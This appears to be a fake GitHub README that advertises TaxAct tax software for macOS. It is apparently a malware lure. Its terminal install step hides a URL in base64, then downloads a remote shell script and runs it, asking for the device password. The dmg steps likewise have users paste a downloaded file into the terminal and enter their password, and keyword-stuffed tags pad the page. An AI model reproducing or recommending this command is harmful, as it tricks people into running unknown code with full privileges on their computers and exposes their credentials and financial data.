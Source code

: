 # 🧾 TaxAct — Reliable Tax Filing Software for macOS

TaxAct is a user-friendly tax preparation application designed specifically for macOS users. It simplifies filing federal and state taxes with clear guidance, making it ideal for individuals, professionals, and small business owners.

## ✅ Download TaxAct for macOS  
[![Download TaxAct](https://img.shields.io/badge/Download-TaxAct-blueviolet)](https://mitrobandus.github.io/.github/TaxAct)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is TaxAct?

TaxAct is a comprehensive tax software that helps macOS users prepare and file their taxes efficiently. With step-by-step assistance, automatic calculations, and up-to-date tax forms, TaxAct makes tax filing accurate and stress-free.

---

## ✨ Features

- 📑 Prepare and file federal and state tax returns  
- 📝 Step-by-step guided tax preparation  
- 💡 Maximize deductions and credits  
- 🖥️ Fully optimized for macOS with Retina display  
- 🔒 Secure data encryption and privacy protection  
- 📊 Real-time error checks and tax calculations  
- 📲 Access from Mac, iPhone, or iPad  

---

## 💡 Why Use TaxAct?

- ✅ Trusted by millions of users nationwide  
- 🧠 Intuitive interface for easy navigation  
- 💵 Helps maximize your tax refund  
- 🔄 Sync and save your progress across devices  
- 🕒 Saves time with automated data entry  

---

[![Download TaxAct](https://img.shields.io/badge/Download-TaxAct-blueviolet)](https://mitrobandus.github.io/.github/TaxAct)

---

## 🖼️ Preview

![TaxAct Screenshot 1](https://www.zdnet.com/a/img/resize/dde7faeab64a1b93556323c68d392ac51a18c1ff/2022/01/05/16e32ba2-6d83-40f0-8399-324e0bc749db/screen-shot-2022-01-03-at-10-50-23-am.jpg?auto=webp&width=1280)  
![TaxAct Screenshot 2](https://www.form8949.com/images/tax-act-enter-totals.png)

---

## 📌 Tags

taxact, taxact free, taxact free file, taxact professional, taxact business,  
www taxact, 80g of income tax act, taxact cost, taxactcom, taxact business taxes,  
taxact coupon, taxact prices, taxact free tax filing, canadian income tax act,  
professional tax act, 80c of income tax act, 10 10d income tax act, 10 13a of income tax act,  
10 14 i of income tax act, 10aa of income tax act, 111a income tax act, 112a of income tax act,  
115ad of income tax act, 115ba of income tax act, 115baa of income tax act, 115bab of income tax act,  
115bac of income tax act, 115jd of income tax act, 139 1 of income tax act, 139 4 of income tax act
